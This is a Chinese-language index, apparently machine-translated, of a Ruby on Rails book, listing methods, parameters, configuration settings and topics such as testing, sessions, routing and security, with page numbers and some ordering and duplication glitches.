- 网络驱动器（会话存储）, 460
- :new 参数, 417
- new（Ruby 构造函数）, 631
- new_record 方法, 364
- new_session 属性, 441
- next_week 方法, 253
- next_year 方法, 253
- nil, 638
- :nothing 参数, 431
- 通过电子邮件通知, 628
- 数字
  - 扩展, 252
  - 格式化, 474
  - 验证, 82, 371
- 数字扩展
  - ago, 253
  - bytes, 253
  - days, 253
  - even, 252
  - exabyte, 253
  - fortnights, 253
  - from_now, 253
  - gigabytes, 253
  - hours, 253
  - kilobytes, 253
  - megabytes, 253
  - minutes, 253
  - months, 253
  - odd, 252
  - ordinalize, 252
  - petabyte, 253
  - since, 253
  - terabytes, 253
  - until, 253
  - weeks, 253
  - years, 253
- number_to_currency 方法, 100
- 数值列类型, 287

## O

- 对象
  - 标识, 321
  - Ruby, 631
  - 使用 marshaling 进行序列化, 642
- :object 参数, 125
- 对象关系映射，参见 ORM
- observe 方法, 381
- observe_field 方法, 525, 536
- observe_form 方法, 537
- 观察者，参见 Active Record, observer
- observer 方法, 381
- odd 方法, 252
- :offset 参数, 303
- Olson, Rick, 20
- 一对一，一对多，参见 关联
- :only 参数, 450, 595
- :only_path 参数, 405
- Open Web Application Security Project, 600
- open_session 方法, 219, 221
- Openbase, 293
- 乐观锁, 322, 390
- option_groups_from_collection_for_select 方法, 489
- :options 选项（用于 create_table）, 271
- Oracle, 294
  - 缓存问题, 362n
  - 另见 数据库
- :order 参数, 302, 308, 358
- ordinalize 方法, 252
- 原始文件名（上传）, 504
- ORM, 27–28, 284
  - Active Record, 28
  - 映射, 27
  - 另见 Active Record；模型
- OS X
  - 修复 Ruby 问题, 41
  - 安装, 34
- :overwrite_params 参数, 404, 405

## P

- 页面
  - 装饰，参见 布局
  - 导航, 56
  - Depot 应用程序, 63
  - 另见 分页
- 页面缓存, 456, 514
- page_cache_directory (配置), 463, 650
- page_cache_extension (配置), 463, 650
- paginate 方法, 479, 481
- 分页, 479–481
  - pagination_links, 480
  - 问题, 481
- pagination_links 方法, 480
- param_parsers (配置), 650
- 参数安全问题, 602
- 参数
  - :action (render), 430
  - :all (find), 96, 301
  - :anchor (url_for), 405
  - :as (has_one), 351
  - :back (redirect_to), 436
  - :bcc (mail_to), 478
  - :body (subject), 478
  - :buffer_size (send_file), 433
  - :builder (form_for), 498
  - :cc (mail_to), 478
  - :class_name (composed_of), 317
  - :class_name (has_and_belongs_to_many), 339
  - :class_name (has_one), 332
  - :collection (render), 124, 511
  - :collection (resources), 417
  - :cols (text_area), 486
  - :conditions (数据库查询中的统计信息 [sum, maximum 等]), 308
  - :conditions (belongs_to), 329
  - :conditions (connect), 398
  - :conditions (find), 299, 302
  - :conditions (has_and_belongs_to_many), 339
  - :conditions (has_one), 332
  - :confirm (link_to), 476
  - :content_type (render), 432
  - :counter_cache (belongs_to), 362
  - :defaults (connect), 397
  - :delegated (web_service_dispatching_mode), 591
  - :dependent (has_one), 332
  - :direct (web_service_dispatching_mode), 591
  - :disposition (send_data), 432
  - :disposition (send_file), 433
  - :distinct (数据库查询中的统计信息 [sum, maximum 等]), 308
  - :encode (mail_to), 478
  - :error (assert_response), 205
  - :except (after_filter), 450
  - :except (after_invocation), 595
  - :except (before_invocation), 595
  - :expects (api_method), 588
  - :file (render), 431
  - :filename (send_data), 432
  - :filename (send_file), 433
  - :first (find), 301, 305
  - :foreign_key (belongs_to), 329
  - :foreign_key (has_and_belongs_to_many), 339
  - :foreign_key (has_one), 332
  - :format (connect), 422
  - :format (resource), 422
  - :from (find), 304
  - :group (find), 304
  - :having (数据库查询中的统计信息 [sum, maximum 等]), 308
  - :host (url_for), 405
  - :html (form_for), 484
  - :html (form_remote_tag), 541
  - :id (button_to), 101
  - :include (find), 305, 361
  - :inline (render), 430
  - :joins (数据库查询中的统计信息 [sum, maximum 等]), 308
  - :joins (find), 303
  - :layered (web_service_dispatching_mode), 591
  - :layout (render), 431, 508
  - :limit (数据库查询中的统计信息 [sum, maximum 等]), 308
  - :limit (find), 302
  - :lock (find), 304
  - :mapping (composed_of), 317
  - :maxlength (hidden_field), 485
  - :maxlength (password_field), 485
  - :maxlength (text_field), 485
  - :member (resource), 417
  - :method (link_to), 91, 416, 477
  - :missing (assert_response), 205
  - :multipart (form_tag), 484, 503
  - :new (resource), 417
  - :nothing (render), 431
  - :object (render), 125
  - :offset (find), 303
  - :only (after_filter), 450
  - :only (after_invocation), 595
  - :only (before_filter), 450
  - :only (before_invocation), 595
  - :only_path (url_for), 405
  - :order (数据库查询中的统计信息 [sum, maximum 等]), 308
  - :order (acts_as_tree), 358
  - :order (find), 302


## 参数属性

:overwrite_params (url_for), 404, 405
:partial (render), 124, 431, 511, 512
:popup (link_to), 476
:position (link_to_remote), 530
:protocol (url_for), 405
:readonly (find), 304
:redirect (assert_response), 205
:requirements (connect), 398
:returns (api_method), 588
:rows (text_area), 486
:scope (acts_as_list), 356
:select (数据库查询中的统计函数 [sum, maximum 等]), 308
:select (find), 303
:select (has_many), 342
:size (hidden_field), 485
:size (password_field), 485
:size (text_field), 485
:skip_relative_url_root (url_for), 405
:source (has_many), 341
:spacer_template (render), 512
:status (render), 431
:status (send_data), 432
:streaming (send_file), 433
:success (assert_response), 205
:template (render), 431
:text (render), 430
:through (has_many), 176, 341
:trailing_slash (url_for), 405
:type (send_data), 432
:type (send_file), 433
:type (send_data), 432
:unique (has_many), 342
:update (link_to_remote), 530
:update (render), 431, 559
:url (form_for), 145, 484
:xml (render), 181, 431

基准测试, 234
缓存存储, 460
子行缓存, 361
页面和动作缓存, 456
计数器缓存, 362
负载均衡, 617
性能分析, 224, 237
扩展选项, 444
会话存储选项, 444
单表继承, 348
另请参见 部署
周期性清理器, 445
periodically_call_remote 方法, 535
悲观锁, 390
petabyte 方法, 253
phpMyAdmin, 73
PickAxe (Programming Ruby), 631
占位符 (SQL), 300
命名占位符, 300
插件 (script), 234
plugin_paths (config), 646
复数 (表名), 241, 243, 285
复数化规则变更, 251
pluralize 方法, 251
pluralize_table_names (config), 647
多态关联, 349-352
:popup 参数, 476
端口 (开发服务器), 44, 77
:position 参数, 530
position 列, 355
post 方法, 161, 203, 220, 427
POST (HTTP 方法), 160, 427, 481
post_via_redirect 方法, 215
回发请求处理, 160
Postfix, 参见 Action Mailer
Postgres, 294
另请参见 数据库
position 列, 323
Pound, 617, 619
pre_loaded_fixtures (config), 652
预加载子行, 362
prepend_after_filter 方法, 450
prepend_before_filter 方法, 450
主键, 274, 289, 321
复合主键, 291
禁用主键, 275, 327
覆盖主键, 290
:primary_key 选项 (create_table), 274
primary_key= 方法, 290
primary_key_prefix_type (config), 648
私有方法, 637
使用私有方法隐藏动作, 107
私有方法 gsub 错误, 437
process 方法, 394
params 属性, 108, 301, 426, 467, 481
父表, *参见* 关联
parent_id 列, 323, 357
part 方法, 578
:partial 参数, 124, 431, 511, 512
部分模板, *参见* 模板, 部分
密码 (存储), 155
密码, 用于数据库, 70
password_field 方法, 485
:maxlength 参数, 485
:size 参数, 485
password_field_tag 方法, 164
模式匹配, 640
Payment.rb, 142
perform_caching (config), 458, 650
perform_deliveries (config), 570, 651
性能

# Q

怪异模式, 89, 131

# R

竞态条件, 390
radio_button 方法, 486
RadRails, 38
Rails
- API 文档, 19
- 自动加载文件, 243
- 内置 Web 服务器, 234
- 核心团队, 19
- 开发环境, 36
- 目录, 43, 229
- 文档, 39
- 边缘版本, 236
- 文件命名, 241
- 查找文件, 240
- 冻结
  - 当前 gem, 235
  - 边缘版本, 237
  - 冻结到特定 gem 版本, 235
- 组件集成, 481
- 起源于 Basecamp, 16
- runner 命令, 580
- 单线程, 616
- 解除冻结, 236
- 更新, 42
- 版本, 19
- 另请参见 Action; 请求处理; 路由
- rails 命令, 43, 68, 186
- 创建的目录, 229
- 使用 rails 命令选择数据库, 71
- rails:freeze:edge, 237
- rails:freeze:gems, 235
- rails:unfreeze, 236
- RAILS_ENV, 240
- RAILS_RELATIVE_URL_ROOT, 408
- raise_delivery_errors (config), 570, 652
rake
- appdoc, 182
- Capistrano 任务, 624
- 创建任务, 232
- db:migrate, 71, 75, 265
- db:schema:version, 232
- db:sessions:clear, 111
- db:sessions:create, 106
- db:test:prepare, 188
- doc:app, 231
- doc:app, 644
- rails:freeze:edge, 237
- rails:freeze:gems, 235
- rails:unfreeze, 236
- Rakefile, 229
- remote:cold_deploy, 624
- remote:deploy, 626
- remote:rollback, 626
- remote:setup, 624
- stats, 182
原始 SQL, 321
RDoc, 182, 231, 644
- 模板化, 519
read_attribute 方法, 288, 384
read_fixture 方法, 581
read_fragment 方法, 517
README_FOR_APP, 182, 231
:readonly 参数, 304
Readystate 3 (AJAX), 532
receive 方法, 579, 580
接收邮件, 参见 Action Mailer
收件人 (电子邮件), 572
recognize_path 方法, 396
record_timestamps (config), 376, 648
RecordInvalid 异常, 313
RecordNotFound 异常, 113
RedCloth (格式化), 476
重定向, 433–436
- 永久重定向, 436
- 防止双重事务, 434
:redirect 参数, 205
redirect 方法, 221
redirect_to 方法, 115, 428, 434, 435, 565
- :back 参数, 436
redirect_to_index 方法, 127
redirect_to_url 属性, 206
Reensjaug, Trygve, 22
正则表达式, 640
- 使用正则表达式进行验证, 85
关系型数据库, 参见 数据库
reload 方法, 311
重新加载子项, 336
开发模式下重新加载更改, 52
远程数据库访问, 71
remote:cold_deploy, 624
remote:deploy, 626
remote:rollback, 626
remote:setup, 624
remote_form_for 方法, 538
remote_function 方法, 536
remote_ip 属性, 426
remove 方法, 563
remove_column 方法, 266
remove_index 方法, 273
重命名数据库表, 272
rename_column 方法, 269
rename_table 方法, 272
渲染, 428–432
- 自动渲染, 428
- 内容类型, 432
- 布局, 431
- 方法, 429
render 方法, 124, 181, 428, 429, 466, 508, 511, 519, 572
- :action 参数, 430
- :collection 参数, 124, 511
- :content_type 参数, 432
- :file 参数, 431
- :inline 参数, 430
- :layout 参数, 431, 508
- :nothing 参数, 431
- :object 参数, 125
- :partial 参数, 124, 431, 511, 512
- :spacer_template 参数, 512
- :status 参数, 431
- :template 参数, 431
- :text 参数, 430
- :update 参数, 431, 559
- :xml 参数, 181, 431
渲染模板, 427
render_to_string 方法, 432
replace 方法, 562
replace_html, 130
replace_html 方法, 561, 562
请求
- delete, 427
- domain 属性, 426
- env 属性, 426
- 环境, 426
- get, 161, 427
- head, 427
- 头信息, 426
- method 属性, 427
- 参数, 426
- post, 161, 427
- put, 427
- remote_ip 属性, 426
- xhr, 427, 542
- xml_http_request, 427
request 属性, 161, 426, 467
请求处理, 24, 46–47, 393–405
- 缓存, 456
- 过滤器, 448
- flash 数据, 114, 446
- 使用过滤器修改响应, 450
- 参数和安全, 113
- 响应用户, 427
- 提交表单, 481
- 测试请求类型, 160
- Web 服务, 590
- 另请参见 路由
请求参数, 参见 params
require 关键字, 644
所需软件 (用于部署), 621
:requirements 参数, 398
rescue 语句, 115, 641
reset! 方法, 221
资源, 参见 REST
resource 方法
- :format 参数, 422
- :member 参数, 417
- :new 参数, 417
resources 方法, 410
- :collection 参数, 417
respond_to 方法, 179, 415, 422
响应
- 压缩, 448
- 内容类型, 432
- 数据和文件, 432
- 头信息, 433
- HTTP 状态, 321
- 另请参见 渲染; 请求处理
response 属性, 427, 467
REST, 409–423
- 添加动作, 417
- 内容类型和 REST, 422
- REST 的控制器动作, 411
- REST 和表单, 484
- 生成 XML, 175–182
- HTTP 动词, 410
- 嵌套资源, 418
- 路由, 411
- 脚手架, 412
- 标准 URL, 411
- 另请参见 Web 服务
- :format 用于内容类型, 181
- 生成, 396, 401
- map 规范, 394, 397
- map.connect, 394
- 命名路由, 406
- 命名参数, 397
- 部分 URL, 404
- 模式, 394
- recognize_path, 396
- resources, 410
- 带根的 URL, 408
- 设置默认值, 397
- URL 生成, 401
- 和 url_for, 401
- use_controllers, 397
- 验证参数, 398
- Web 服务, 596
- 通配符参数, 397
- 包含多个规则, 399
返回值 (方法), 635
:returns 参数, 588
显示元素, 134
rhtml, 参见 模板
RJS
- (), 564
- <<, 565
- alert, 565
- call, 565
- delay, 565
- draggable, 566
- hide, 563
- insert_html, 562
- redirect_to, 565
- remove, 563
- 渲染, 431
- replace, 562
- replace_html, 561, 562
- select, 564
- show, 563
- sortable, 561, 566
- 模板, 559
- toggle, 563
- update, 562
- visual_effect, 566
- 另请参见 AJAX; 模板
行, 映射到对象, 28
:rows 参数, 486
rpm, 621
RSS (自动发现), 479
Ruby
- 访问器, 636
- 优点, 15
- 数组, 638
- begin 语句, 641
- 代码块, 640
- 类, 631, 635
- 注释, 633
- 常量, 633
- 声明, 635
- 异常处理, 115, 641
- 异常, 641
- 扩展, 参见 Active Support
- 哈希, 638
- 惯用法, 642
- if 语句, 639
- 继承, 635
- 另请参见 单表继承
- 实例方法, 632, 635
- 实例变量, 53, 632, 636
- 介绍, 631–644
- 迭代器, 640
- 序列化, 642
- 方法, 633
- 模块, 637
- 命名约定, 632
- nil, 638
- 对象, 631
- 数据库中的对象, 315, 316
- 参数和 =>, 639
- 受保护的, 83, 637
robots.txt, 465
回滚, 参见 事务
滚动日志文件, 627
带根的 URL, 408
routes.rb, 394
RouteSet 类, 395
路由, 25, 394–405
- connect, 397
- 控制器, 408
- url_for 的默认值, 405
- 使用的默认值, 402
- 显示路由, 396
- 在 script/console 中实验, 395


## S

加盐密码, 155
示例程序, 653-683
sanitize 方法, 471, 608
save 方法, 296, 311, 313, 360, 389
save! 方法, 313, 360, 386
保存，在关联中, 360
脚手架, 76, 78
- 动态, 86
- 生成, 86
- 修改其代码, 87
- 静态, 86
scaffold_resource 生成器, 412
扩展
- 与会话, 105
- 另见部署；性能
模式，参见 Active Record；数据库
迁移，参见迁移
schema_format (配置), 648
schema_info 表, 76, 265
Schwarz, Andreas, 600
:scope 参数, 356
script/ 目录, 233
Script.aculo.us, 131, 543
- 拖放, 549
- Sortable.serialize, 553
- 视觉效果, 558
脚本片段, 470
Seckar, Nicholas, 20
seconds_since_midnight 方法, 253
安全性, 600-613
- 与缓存, 612
- 检查 id 参数, 604
- cookie, 437
- 跨站脚本攻击, 96, 606
- 数据库, 623
  - 与删除行, 605
  - 不要信任传入的参数, 602-604
  - 加密数据, 610
  - 转义 HTML, 53, 471
  - 暴露的控制器方法, 107, 605
  - 文件上传, 609-610
  - 与 GET 方法, 463-465
  - 与 id 参数, 604
  - MySQL, 40
  - 隐藏电子邮件地址, 478
  - 保护模型属性, 602
  - 推到最低层级, 602
  - Rails 查找器, 602
  - 请求参数, 113
  - 会话固定攻击, 608-609
  - SQL 注入, 300, 600-602
  - SSL, 611
  - 验证上传类型, 504
:select 参数, 303, 308, 342
select 方法, 486, 564
select 语句, 305
select_all 方法, 321
select_date 方法, 490
select_datetime 方法, 490
select_day 方法, 490
select_hour 方法, 490
select_minute 方法, 490
select_month 方法, 490
select_one 方法, 322
select_second 方法, 490
select_tag 方法, 500
select_time 方法, 490
select_year 方法, 490
self 关键字, 635, 643
send_data 方法, 231, 432
- :disposition 参数, 432
- :filename 参数, 432
- :type 参数, 432
send_data 方法
- :disposition 参数, 432
- :filename 参数, 432
- :status 参数, 432
- :type 参数, 432
send_file 方法, 433
- :buffer_size 参数, 433
- :disposition 参数, 433
- :filename 参数, 433
- :streaming 参数, 433
- :type 参数, 433
发送电子邮件，参见 Action Mailer
Sendmail，参见 Action Mailer，配置
serialize 方法, 315
序列化（使用 marshal 序列化对象）, 642
服务器，参见部署
server 脚本, 234
server_settings (配置), 569, 652
session 属性, 105, 206, 427, 438, 467
session_domain 属性, 441
session_expires 属性, 441
session_id 属性, 441
_session_id, 438
session_key 属性, 441
session_path 属性, 441
session_secure 属性, 441
session_store (配置), 650
会话, 104-107, 438-446
- 访问, 427
- ActiveRecordStore, 442
- 购物车访问器, 107
- 清除, 111
- 清除旧的, 445, 627
- 比较存储选项, 444
- 条件性, 443
- 在数据库中, 106, 442
- 默认值, 440
- DRb 存储, 442
- 过期, 445
  - 在数据库中, 445
- 闪存数据, 446
- 平文件存储, 443
- id, 438
- 在集成测试中, 219
- 内存存储, 443
- memcached 存储, 443
- 网络驱动器存储, 460
- new_session 属性, 441
- 对象在其中, 438
- PStore, 442
- 限制, 438, 642
- session_domain 属性, 441
- session_expires 属性, 441
- session_id 属性, 441
- session_key 属性, 441
- session_path 属性, 441
- session_secure 属性, 441
- 存储选项, 105, 441-445
- 使用 cookie, 105
- 使用 URL 重写, 105
set_primary_key 方法, 290
set_table_name 方法, 285
setup 方法, 196, 199
共享代码, 231
Shaw, Zed, 617
购物车，参见 Depot 应用程序
show 方法, 563
签名（Web 服务中的方法）, 587
Simply Helpful, 484n
since 方法, 253
单表继承, 344-347
单例方法（在集成测试中）, 217
singularize 方法, 251
:size 参数, 485
:skip_relative_url_root 参数, 405
SMTP，参见 Action Mailer，配置
SOAP，参见 Web 服务
套接字（MySQL）, 72
排序列表, 549
sortable 方法, 561, 566
Sortable.serialize 方法, 553
sortable_element 方法, 553
:source 参数, 341
源代码, 653-683
- 下载, 17
:spacer_template 参数, 512
爬虫, 464
加载指示器（忙碌提示）, 526
SQL
- 绑定变量, 601
- 单表继承的列, 345
- created_at/created_on 列, 322, 376
- 删除行, 314
- 动态, 301
- 外键, 325
- id 列, 323
- 注入攻击，参见安全性
- 插入, 364
- 发出原始命令, 321
- 连接表, 324
- lock_version 列, 322
- 锁定, 390
- 魔法列名, 322
- parent_id 列, 323, 357
- 占位符, 300
- position 列, 323, 355
- select, 305
- type 列, 323
- 更新, 311, 313, 364
- updated_at/updated_on 列, 322, 376
- where 子句, 299
- 另见数据库
SQL Server, 294，参见数据库
迁移中的 SQL, 278
SQLite, 34, 294，参见数据库
SSL, 611
StaleObjectError 异常, 391
标准差, 307
starts_with 方法, 250
状态
- 保存在模型中, 22
StatementInvalid 异常, 113n
静态脚手架，参见脚手架，静态
数据库查询中的统计信息（总和、最大值等）, 307
数据库查询中的统计信息（总和、最大值等）方法
- :having 参数, 308
数据库查询中的统计信息（总和、最大值等）方法
- :conditions 参数, 308
- :distinct 参数, 308
- :joins 参数, 308
- :limit 参数, 308
- :order 参数, 308
- :select 参数, 308
代码的统计信息, 182
stats, 182
- :status 参数, 431
- :status 参数, 432
Stephenson, Sam, 20, 522
- :streaming 参数, 433
字符串
- 扩展, 251
- 使用 Blue 和 RedCloth 进行格式化, 476
- 格式化, 474, 475
字符串列类型, 287
:string 列类型, 267
字符串扩展
- at, 250
- chars, 258
- each_char, 250
- ends_with, 250
- first, 250
- from, 250
- humanize, 251
- last, 250
- pluralize, 251
- singularize, 251
- starts_with, 250
- titleize, 251
- to, 250
字符串（Ruby）, 634
Struts, 14, 23
样式表, 89
- 链接到页面, 478
stylesheet_link_tag 方法, 89, 478
subject 方法
- :body 参数, 478
主题（电子邮件）, 572
submit_to_remote 方法, 538
子模块（用于控制器）, 243
子页面，参见组件；布局
将值替换到 SQL 中, 300
Subversion, 36
:success 参数, 205
sum 方法, 120, 250, 307
清除器（缓存）, 461
清除器（会话数据）, 445
SwitchTower，参见 Capistrano
Sybase, 295
Symbol 扩展
- to_proc, 252
符号（:name 表示法）, 633

## T

标签补全, 36n
表命名, 241, 285
table_name_prefix (配置), 648
table_name_suffix (配置), 648
表，通过 AJAX 更新, 534
tail 命令, 116
Tapestry, 14
模板, 29, 428-432, 466-471
- <%...%>, 51
- <%=...%>, 50
- 从控制器访问, 467
- 添加新的, 519-521
- 自动加载, 243
- 与集合, 124, 511
- 用其创建 XML, 468
- 动态, 50, 53, 469
- 电子邮件, 572
- 转义 HTML, 471
- 辅助方法, 472
- HTML, 48, 469
- 布局，参见布局
- 位置, 48, 559
- 命名约定, 242, 428, 466
- 部分模板, 123, 510-513
  - 向部分模板传递参数, 511
- 使用 RDoc, 519
  - 注册新的处理器, 520
- 渲染, 427
- reval：动态模板示例, 520
- rhtml, 469
- rjs, 129, 559
- 根目录, 466
- rxml, 177, 468
- 共享实例变量, 467
- 共享, 467, 512
  - 在控制器中使用, 512
- 另见渲染；RJS；视图
- :template 参数, 431
template_class (配置), 650
template_root (配置), 429, 466, 650, 652
:temporary 选项（用于 create_table）, 271
terabytes 方法, 253


## 测试，185–227

- assert，187，189
- assert_generates，423
- assert_recognizes，423
- assert_redirected_to，201
- assert_response，200，201
- assert_routing，424
- assert_select，207
- assert_select_email，213
- assert_select_encoded，213
- assert_select_rjs，213
- assigns 属性，205
- Benchmark.realtime，224
- controller（控制器），198
- cookies 属性，206
- data（数据），191
- delete（删除），203
- directories（目录），186
- domain-specific language（领域特定语言），217
- e-mail（电子邮件），568，580
- environment（环境），187
- find_all_tag，206
- find_tag，206
- fixture（测试夹具），191
- dynamic（动态），201，222
- fixture data, accessing（访问测试夹具数据），193
- fixture_file_upload，207
- fixtures（测试夹具），192
- flash 属性，201，206
- follow_redirect，206
- follow_redirect!，220
- functional（功能测试），198–213
  - definition（定义），186
- get，200，203，214，220
- get_via_redirect!，221
- head，203
- host!，221
- https，221
- https!，221
- integration（集成测试），213–221
  - definition（定义），186
- mock object（模拟对象），225–227，240
- open_session，219，221
- performance（性能），221，*参见* Performance
- post，203，220
- post_via_redirect，215
- put，203
- redirect（重定向），221
- redirect_to_url 属性，206
- reset!，221
- routing（路由），423
- session（会话），219
- session 属性，206
- setup（设置），196，199
- standard variables（标准变量），205
- unit（单元测试），186–198
  - definition（定义），186
- url_for，221
- web service using scaffold（使用脚手架的 Web 服务），587
- web services（Web 服务），595
- xhr，204
- xml_http_request，204，214，220
- YAML test data（YAML 测试数据），191
- test/ 目录，230
- test.rb，240
- Test::Unit，187
- Testing（测试）

- pre_loaded_fixtures (config)（预加载夹具配置），652
- use_instantiated_fixtures (config)（使用实例化夹具配置），652
- use_transactional_fixtures (config)（使用事务性夹具配置），652

- :text 参数，430
- :text 列类型，267
- text_area 方法，146，486
  - :cols 参数，486
  - :rows 参数，486
- text_field 方法，145，485
  - :maxlength 参数，485
  - :size 参数，485
- text_field_tag 方法，164，500
- text_field_with_auto_complete 方法，548
- Textile（格式），476
- textilize 方法，476
- TextMate，37，38
- 线程安全，647
- Threading（Rails 是单线程），616
- :through 参数，176，341
- Tiger，修复 Ruby 问题，41
- Time（时间）
  - 扩展，253
  - 缩放方法，253

- Time 列类型，287
- :time 列类型，267
- Time 扩展
  - at_beginning_of_day，253
  - at_beginning_of_month，253
  - at_beginning_of_week，253
  - at_beginning_of_year，253
  - at_midnight，253
  - change，253
  - last_month，253
  - last_year，253
  - midnight，253
  - monday，253
  - months_ago，253
  - months_since，253
  - next_week，253
  - next_year，253
  - seconds_since_midnight，253
  - since，253
  - tomorrow，253
  - years_ago，253
  - years_since，253
  - yesterday，253

- Time formatting（时间格式化），254，474
- Time selection widget（时间选择小部件），490
- :time stamp 列类型，267
- Time stamp columns（时间戳列），376
- Time zone（时区），255
- Time-based cache expiry（基于时间的缓存过期），462
- Title（动态设置），509
- titleize 方法，251
- TMail，*参见* Action Mailer
- tmp/ 目录，234
- to 方法，250
- To address（电子邮件），572
- to_date 方法，255
- to_json 方法，248
- to_proc 方法，255
- to_s 方法，254
- to_sentence 方法，250
- to_time 方法，254，255
- to_xml 方法，181，248
- to_yaml 方法，248
- toggle 方法，563
- 切换视觉效果，559
- tomorrow 方法，253
- 工具，开发，*参见* Development environment
- :trailing_slash 参数，405
- Transaction（事务），171，384–390
  - ACID 属性，385
  - commit（提交），385
  - 隐含在 save 和 destroy 中，389
  - 保持模型一致性，388
  - 多数据库，389
  - 嵌套，389
  - 出现异常时回滚，385
- transaction 方法，385
- Transfer file（传输文件），432
  - 上传，502
- Transient storage（瞬态存储），*参见* Flash
- Tree（使表表现得像树），357
- *Trees*（Joyce Kilmer），475
- truncate 方法，91
- TweakUI，36
- 两阶段提交，389
- :type 参数，432，433
- Type cast（类型转换），288
- Type coercion（类型强制转换）（Web 服务），585
- type 列，323
- Type mapping（类型映射）（Active Record），287

## U

- Ubuntu，36，621
- Unicode
  - 使用 Unicode 的示例应用程序，258
  - Unicode 支持，257
- :unique 参数，342
- 单元测试，*参见* Test
- until 方法，253
- up 方法，75，266
- :update 参数，431，530，559
- update 方法，312，562
- update_all 方法，312
- update_attribute 方法，312
- update_attributes 方法，312
- updated_at/updated_on 列，322，376
- 更新 Rails，42
- 更新行，311
- 上传文件，502
  - 安全问题，609
- URL
  - 链接中的绝对 URL，477
  - Web 服务端点，590
  - 格式，25，47，244
  - 使用 link_to 生成，57
  - 使用 url_for 生成，401
  - 重定向，433
  - 重写和会话，105
- :url 参数，145，484
- url_for 方法，221，401，405，406
  - :anchor 参数，405
  - :host 参数，405
  - :only_path 参数，405
  - :overwrite_params 参数，404，405
  - :protocol 参数，405
  - :skip_relative_url_root 参数，405
  - :trailing_slash 参数，405
- use_controllers 方法，397
- use_instantiated_fixtures (config)，652
- use_transactional_fixtures (config)，652
- User（用户），用于数据库，70
- UTF-8，257

## V

- valid 方法，365
- validate 方法，82，364
- validate_on_create 方法，364
- validate_on_update 方法，364
- validates_acceptance_of 方法，367
- validates_associated 方法，367
- validates_confirmation_of 方法，368
- validates_each 方法，368
- validates_exclusion_of 方法，369
- validates_format_of 方法，85，369
- validates_inclusion_of 方法，370
- validates_length_of 方法，156，370
- validates_numericality_of 方法，82，371
- validates_presence_of 方法，82，371
- validates_size_of 方法，372
- validates_uniqueness_of 方法，372
- **Validation（验证），82，364-373**
  - conditional（条件验证），373
  - error messages（错误消息），194，373
  - errors.add，83
  - multiple model（多模型验证），493
  - operation dependent（操作相关验证），364
  - valid，365
  - validate，82，364
  - validate_on_create，364
  - validate_on_update，364
  - validates_acceptance_of，367
  - validates_associated，367
  - validates_confirmation_of，368
  - validates_each，368
  - validates_exclusion_of，369
  - validates_format_of，85，369
  - validates_inclusion_of，370
  - validates_length_of，156，370
  - validates_numericality_of，82，371
  - validates_presence_of，82，371
  - validates_size_of，372
  - validates_uniqueness_of，372
  - *另见* Active Record，callbacks
- Value object（值对象），316，320
- Varchar 列类型，287
- Variable, instance（实例变量），53
- vendor/ 目录，234
- verbose (config)（详细模式配置），649
- Verification（验证），454
- verify 方法，454
- Version（of Rails）（Rails 版本），19
- 版本控制，36
- **View（视图）**
  - Action View，29
  - 目录，55
  - 实例变量，53
  - 集成到控制器和模型，481
  - 布局，*参见* Layout
  - 渲染，24
  - 职责，22
  - *另见* MVC
- view_controller_internals (config)，650
- view_path (config)，646
- 虚拟属性，157
- 虚拟主机，626
- 视觉效果，*参见* AJAX
- **Visual effects（视觉效果），131，558**
  - 切换，559
- Visual Studio（用于 Web 服务），597
- visual_effect，133
- visual_effect 方法，558，566
- void(0) JavaScript，524
- **Volatile content（易变内容）**
  - 缓存，462
- **Wait cursor（AJAX）（等待光标），526**
- **Warning（log level）（警告日志级别），245**
- **Web 2.0，*参见* AJAX；RJS**
- **Web server（Web 服务器），234**
  - -e 选项，238
  - 启动，44，77
  - *另见* Deployment
- **Web service（Web 服务）**
  - after_invocation，594
  - api_method，587
  - before_invocation，594
  - as client（作为客户端），598
  - define API（定义 API），585
  - dispatch（分发）
    - delegated（委托），591，593
    - direct（直接），590
    - layered（分层），591，592
  - generate（生成），585
  - invoke（调用），596
  - invoke_delegated（委托调用），596
  - invoke_layered（分层调用），596
  - limitations（限制），584
  - method interception（方法拦截），593
  - method signature（方法签名），587
  - parameter（参数）
    - binary (base64)（二进制），589
    - names（名称），589
    - specifications（规范），588
    - structured（结构化），589
    - types（类型），589
  - SOAP 和 WSDL，596
  - test（测试）
    - using scaffold（使用脚手架），587
  - testing（测试），595-598
  - type coercion（类型强制转换），585
  - web_client_api，598
  - web_service_dispatching_mode，591
  - web_service_scaffold，587
  - wsdl_service_name，587
- **XML-RPC，597**
- *另见* REST
- **Web spider（网络爬虫），464**
- web_client_api 方法，598
- web_service 方法，592
- **web_service_dispatching_mode 方法，591**
  - :delegated 参数，591
  - :direct 参数，591
  - :layered 参数，591
- web_service_scaffold 方法，587
- Weber, Florian，20
- WebObjects，23
- WEBrick，44，77，234
  - -e 选项，238
- weeks 方法，253
- Weirich, Jim，177，227，468
- wget，178
- where 子句，299
- while 语句，639
- whiny_nils (config)，646
- Williams, Nic，291n
- Windows
  - 安装，32
  - InstantRails，32
  - less 命令，116
  - MySQL 和 Cygwin，73
  - 标签页补全，36n
- with_options 方法，256
- write_attribute 方法，288
- WSDL，*参见* Web service
- wsdl_service_name 方法，587
- XML
  - 从模型自动生成，181
  - 使用 Builder 生成，468
  - 模板，*参见* Template，rxml
- :xml 参数，181，431
- XML-RPC，*参见* Web service
- xml_http_request 方法，204，214，220，427
- XMLHttpRequest，523，536
  - *另见* AJAX
- XSS（跨站脚本），*参见* Security，cross-site scripting

## X

- XHR，*参见* XMLHttpRequest
- xhr 方法，204，427，542

## Y

- YAML，70，71，248
  - 文件中的别名，239
  - 测试数据，191
- years 方法，253
- years_ago 方法，253
- years_since 方法，253
- 黄色淡出效果，131
- yesterday 方法，253
- 在布局中使用 yield，99，506
- yield 语句，641

## Z

- Zlib，450
